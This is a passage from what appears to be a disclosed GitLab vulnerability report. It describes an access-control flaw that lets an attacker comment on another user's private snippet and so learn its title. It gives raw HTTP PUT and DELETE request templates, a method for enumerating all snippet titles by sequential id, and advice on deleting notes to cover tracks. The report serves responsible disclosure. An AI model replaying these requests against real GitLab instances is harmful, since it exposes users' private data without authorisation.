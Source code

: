 ```
PUT /attacker/privateattackerproject/notes/8 HTTP/2
Host: gitlab-pentest2.example.com
<Rest of headers>

{"target_type":"personal_snippet","target_id":3,"note":{"note":"test2"}}
```

#### Attacker deleting a note they created previously
1. To delete the note on the personal snippet:
Take the original delete note request:
```
DELETE /attacker/privateattackerproject/notes/8 HTTP/2
Host: gitlab-pentest2.example.com
<Rest of headers>
```
Update the id in the request to point to the note id in the personal snippet (Attacker must be the owner of the note).

```
DELETE /attacker/privateattackerproject/notes/7 HTTP/2
Host: gitlab-pentest2.example.com
<Rest of headers>
```

### Impact

If the victim refreshes the snippet they will see a comment from the attacker. If the attacker visits their profile page (ie. https://gitlab-pentest2.example.com/attacker) and views activity, they will confirm if they reached the comment and can obtain the title of the private snippet.

Since snippet ids are sequential, an attacker could in theory create a snippet, then iterate from 1 to the snippet number of their own snippet and obtain the titles of all personal snippets.

The attacker is also able to update a note they have created and modify text and/or delete the note itself by intercepting the "Edit comment" and "Delete comment" requests within the issue and repeating the steps above. The attacker could delete their notes after collecting the titles for example to cover their tracks.

If the attacker makes their project public or internal and uses a label or references the issue in the comment, the victim will be able to see the label from the attacker's project. This helps provide further proof of a successful attack and may be used for social engineering.

### Examples

This bug is also reproducible on GitLab.com
Victim Snippet: https://gitlab.com/-/snippets/2436054
Attacker Issue: https://gitlab.com/Cryptopone/MyPrivateProject/-/issues/1

### What is the current *bug* behavior?

When the attacker posts a note to the victim's private snippet, the attacker will be able to obtain the title of the snippet. 

### What is the expected *correct* behavior?
